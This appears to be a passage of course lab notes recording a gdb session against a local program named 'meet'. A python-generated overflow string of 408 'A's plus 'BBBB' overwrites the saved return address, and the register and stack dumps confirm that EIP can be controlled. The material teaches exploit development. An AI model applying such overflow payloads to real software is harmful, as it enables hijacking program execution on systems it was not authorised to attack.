 ```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>info registers
>x/64x $esp
>x/2i $eip
>end
(gdb) break *greeting+91
Breakpoint 1 at 0x1224
```
 - `(gdb)run AAAA $(python -c 'print "A"*408+"BBBB"')`-> inject the payload & analyze with gdb
 - can we control eip now?

```
(gdb) run AAAA $(python -c 'print "A"*408+"BBBB"')
Starting program: /root/Desktop/cs642/meet AAAA $(python -c 'print "A"*408+"BBBB"')
Hi  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
eax            0x1a2    418
ecx            0x1      1
edx            0xf7fa7890       -134580080
ebx            0x41414141       1094795585
esp            0xffffd458       0xffffd458
ebp            0x41414141       0x41414141
esi            0xf7fa6000       -134586368
edi            0x0      0
eip            0x56556224       0x56556224 <greeting+91>
eflags         0x296    [ PF AF SF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
0xffffd458:     0x42424242      0xffffd600      0xffffd664      0x00000000
0xffffd468:     0x00000000      0xf7de99a1      0x00000003      0xffffd504
0xffffd478:     0xffffd514      0xffffd494      0x00000001      0x00000000
0xffffd488:     0xf7fa6000      0xf7fe4d0a      0xf7ffd000      0x00000000
0xffffd498:     0xf7fa6000      0x00000000      0x00000000      0xcde0cbd3
0xffffd4a8:     0x8f7aedc3      0x00000000      0x00000000      0x00000000
0xffffd4b8:     0x00000003      0x56556090      0x00000000      0xf7fea350
0xffffd4c8:     0xf7fe4f60      0x56559000      0x00000003      0x56556090
0xffffd4d8:     0x00000000      0x565560c1      0x56556225      0x00000003
0xffffd4e8:     0xffffd504      0x56556280      0x565562e0      0xf7fe4f60
0xffffd4f8:     0xffffd4fc      0xf7ffd940      0x00000003      0xffffd646
0xffffd508:     0xffffd65f      0xffffd664      0x00000000      0xffffd801
0xffffd518:     0xffffd814      0xffffddf6      0xffffde2c      0xffffde3b
0xffffd528:     0xffffde4c      0xffffde61      0xffffde6f      0xffffde81
0xffffd538:     0xffffde8a      0xffffdea2      0xffffdeab      0xffffdeba
0xffffd548:     0xffffdedd      0xffffdef0      0xffffdefc      0xffffdf0f
=> 0x56556224 <greeting+91>:    ret
   0x56556225 <main>:   push   ebp

Breakpoint 1, 0x56556224 in greeting ()
```

